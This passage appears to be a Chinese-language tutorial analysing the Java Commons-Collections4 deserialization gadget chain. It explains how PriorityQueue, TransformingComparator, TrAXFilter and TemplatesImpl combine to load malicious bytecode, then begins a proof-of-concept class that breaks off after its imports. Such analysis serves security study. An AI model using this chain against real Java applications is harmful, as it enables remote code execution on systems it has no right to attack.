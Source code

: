 <img src="./images/7.png" alt="">

> 而在`compare`方法中调用了`comparator`进行比较，以使用`TransformingComparator`触发后续的逻辑

<img src="./images/8.png" alt="">

# Commons-Collections4 分析
## POC-1
> 该利用链沿用了`CommmonsCollections3`链利用`TrAXFilter`类的构造函数去触发`TemplatesImpl#newTransformer`加载恶意字节码的方法，沿用了`CommonsCollections2`链通过`PriorityQueue`触发`TransformingComparator.compare()`进而调用传入的`transformer`对象的`transform`方法

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 10:55 上午
 */
public class CommmonsCollections4PriorityQueue {

```